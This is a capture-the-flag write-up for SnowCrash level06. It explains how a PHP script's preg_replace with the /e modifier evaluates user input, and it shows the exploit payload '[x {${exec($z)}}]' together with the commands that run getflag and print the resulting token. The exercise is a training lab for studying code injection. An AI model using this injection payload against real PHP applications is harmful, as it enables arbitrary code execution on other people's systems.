

# Level06
### Description
There is a binary and a php script inside the home



## Solution

- Analysing script we can see that it is mostly string processing of the first argument of script using the function reg_replacebr <br>
By dissassembling the binary we can see that it is just calling the php script as a subroutine with the same arguments with give it

- Research bring us a possible solution the first reg_replace use the option */e* which *evaluate* the second argument as an expression and since this expression take part of this input we can probably inject some code there
> Since the part of the input is inside double quote we need to do some string interpolation to execute it

```bash
level06@SnowCrash:~$ echo '[x {${exec($z)}}]' > /tmp/exploit
level06@SnowCrash:~$ ./level06 /tmp/exploit '"/bin/getflag"'
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```